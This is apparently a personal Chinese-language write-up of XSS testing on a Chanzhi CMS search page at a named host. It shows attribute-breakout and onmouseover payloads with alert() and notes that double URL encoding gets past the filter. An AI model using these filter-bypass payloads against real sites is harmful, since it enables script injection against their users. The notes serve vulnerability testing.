 挖掘xss漏洞

http://chanzhi7.njhack.xyz/www/index.php/search-index-1-1.html

```php
<input type='text' name='words' id='words' value=' x ' class='form-control' placeholder='' /> 

<input type='text' name='words' id='words' value=' x'/><img ' class='form-control' placeholder='' /> 
```

出现bad request

x'/><img 进行url编码，发现404

再进行一次编码发现正常

我们发现，需要进行2次编码才可以绕过

-------
```php
<input type='text' name='words' id='words' value=' abc' onmouseover='alert(1) ' class='form-control' placeholder='' /> 
```

abc' onmouseover='alert(1) 进行2次编码

-------

```java
x'/><script>alert('haha')</script><img
```

进行2次url编码，发现<script>前后标签都没了

